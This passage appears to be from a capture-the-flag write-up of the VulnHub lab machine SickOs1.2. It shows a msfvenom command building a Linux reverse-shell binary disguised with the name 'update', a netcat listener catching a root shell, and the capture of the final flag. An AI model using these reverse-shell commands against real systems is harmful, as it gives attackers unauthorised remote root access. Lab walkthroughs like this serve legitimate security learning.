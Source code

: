On my host:

```bash
nc -nv 192.168.60.128 443                                                                                                                                                                               1 ↵
192.168.60.128 443 (https): Operation timed out
```

Yeah, then I remembered that there's some filtering going on. So maybe incoming 443 port is blocked, after some thinking I thought about port 8080.

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp  LHOST=192.168.60.1 LPORT=8080  -f elf -o ~/Downloads/TMP/update
...
Payload size: 68 bytes
```

After transfering and more waiting I finally got it!:

```bash
$ nc -nvlp 8080                                                                                                                                                                                           Connection from 192.168.60.128:37661
id
uid=0(root) gid=0(root) groups=0(root)
```

![assets/writeup-0e386.png](assets/writeup-0e386.png)

w00tw00t, let's get the flag:

```bash
cd /root
ls
304d840d52840689e0ab0af56d6d3a18-chkrootkit-0.49.tar.gz
7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
chkrootkit-0.49
newRule
cat 7d*
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```
